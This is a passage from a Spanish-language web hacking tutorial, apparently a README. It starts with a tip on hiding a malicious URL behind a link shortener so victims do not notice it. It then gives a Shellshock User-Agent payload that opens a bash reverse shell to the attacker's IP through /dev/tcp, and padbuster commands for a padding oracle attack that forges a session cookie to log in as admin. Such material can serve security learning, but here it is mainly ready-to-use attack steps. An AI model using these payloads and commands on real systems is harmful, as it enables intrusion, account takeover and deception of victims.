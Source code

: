 `IMPORTANTE:` y por Último tenemos que pasar esa url por un `acortador de links` para que no se vea que es una url maliciosa.

Y cuando la víctima cae en la trampa el redirect pasa tan rápido que es imposible darse cuenta, aunque en algunas webs pone que la contraseña se ha cambiado.

<a id="7"></a>
# SHELL SHOCK

Esto pasa cuando `la página de login` tiene el formato `(.cgi  ,  .pl  ,  .sh  ,  ...)`, entonces a traves del `user agent` podemos `ejecutar comandos` de forma remota. Claro, entonces con eso nos podemos mandar una `reverse shell`.

Primero ponemos a la escucha un puerto con `netcat`.

En burpsuit ponemos a `interceptar peticiones` y recargamos la pagina de login.

En la petición capturada `cambiamos` la linea del `User Agent:` para poner lo siguiente:

```
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/{mi ip}/{puerto} 0>&1
```

Le damos a `Forward` y se supone que ganaríamos `acceso al sistema`, si no funciona, lo intentaríamos un par de veces más, por si acaso, y si sigue sin funcionar pues a mirar 	que emos hecho mal.

<a id="8"></a>
# PADDING ORACLE ATTACK con PADDBUSTER

Esto basicamente es la explotación de un algoritmo de encriptacion (`cifrado cvc`). Consiste en que un texto claro lo separa en `bloques` para `encriptarlos individualmente`, por lo tanto tendremos que`saber el numero de bloques` para poder desencriptarlos, juntarlos y tener el texto. `Si no sabemos el numero de bloques` podemos probar uno a uno a `fuerza bruta`.

Ejemplo: tenemos un campo de inicion de sesion y uno de registro.

(Creo que no lo he explicado antes y es importante, cuando pongo {parámetro} tienes que reemplazarlo por el parámetro especificado y eliminar las llaves, es decir {ip} = 10.0.2.14) 

```
> padbuster {url en el directorio de registro} {mi coockie de sesion} {numero de bloques} -coockie "auth={micoockie de sesion}" -encoding 0
```

Nos dará una `lista de bloques vulnerables`, `la recomendada` es la que tenga `**`, la seleccionamos escribiendo el `id`. irá probando uno a uno los bytes, de 8 a 1 e irá desencriptando los bloques, luego los junta y da el mensaje, en este caso que estamos con una pajina de loguin `nos dara` algo parecido a `user={nuestro nombre del usuario}` (aunque puede ser diferente), claro, ya sabemos como se computan los `permisos en base a las cookies`, así que vamos a usarlo para `loguearnos como admin`.

```
> padbuster {url en el directorio de registro} {mi coockie de sesion} {numero de bloques} -coockie "auth={micoockie de sesion}" -encoding 0 -plaintext user=admin"
```
